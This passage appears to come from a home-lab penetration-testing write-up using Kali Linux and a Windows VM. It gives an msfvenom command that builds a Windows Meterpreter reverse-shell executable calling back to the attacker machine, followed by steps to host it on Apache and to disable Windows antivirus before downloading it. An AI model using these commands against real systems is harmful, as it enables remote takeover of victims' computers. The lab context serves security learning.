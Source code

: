 ![Windows Network Config](images/WindowsNetwork.png)

- Checked Kali Linux IP using `ifconfig`: `10.0.2.4`  
  
![Kali IP](images/KaliLinuxIP.png)

- Checked Windows IP using `ipconfig`: `10.0.2.15`  
  
![Windows IP](images/WindowsIP.png)

---

## Payload Creation

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.4 LPORT=4444 -f exe -o ~/Desktop/shellcode.exe
```
- Move payload to Apache directory:
```
sudo cp ~/Desktop/shellcode.exe -d /var/www/html/Downloads/
```
---

## Host the Payload
```
sudo service apache2 start
```
- Access payload from Windows:
	- **Note: Turn off Windows `Virus & Threat Protection` before downloading the payload**
